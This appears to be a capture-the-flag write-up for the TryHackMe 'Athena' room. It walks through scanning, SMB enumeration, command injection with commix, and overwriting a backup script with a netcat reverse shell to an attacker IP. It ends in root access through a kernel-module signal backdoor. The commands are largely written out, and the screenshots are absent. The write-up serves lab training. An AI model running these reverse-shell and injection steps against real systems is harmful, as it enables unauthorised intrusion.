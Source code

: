 # Athena

**Room Link:** [https://tryhackme.com/r/room/4th3n4](https://tryhackme.com/r/room/4th3n4)

### **Scans** <a href="#scans" id="scans"></a>

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **TCP/139 - NetBIOS** <a href="#tcp-139-netbios" id="tcp-139-netbios"></a>

**Kali**

```
nbtscan $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
enum4linux $VICTIM
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **TCP/445 - SMB**

**Kali**

```
smbclient \\\\$VICTIM\\public
prompt
mget *
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## **TCP/80 - HTTP**

#### Find Pages <a href="#find-pages" id="find-pages"></a>

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```





<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

### Shell #1

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone https://github.com/commixproject/commix.git commix
cd commix/
python commix.py -r ../request.txt 
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Shell #2

**Kali**

```
nc -lvnp 1337
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Full TTY

```
script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo;fg
```



## Lateral Movement

### **LinPeas**

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 82
```

**Victim**

```
cd /tmp/
wget http://$KALI:82/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
nc -lvnp 1338
```



**Victim**

```
echo '#!/bin/bash' > /usr/share/backup/backup.sh
echo "/usr/bin/nc 10.10.35.7 1338 -e /bin/bash" >> /usr/share/backup/backup.sh
```

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

Full TTY

```
script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo;fg
```

## Privilege Escalation&#x20;

**Victim(athena)**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(athena)**

```
cd /mnt/.../secret/
modinfo venom.ko
```

<figure><img src="../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(athena)**

```
kill -57 271
id
```

<figure><img src="../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

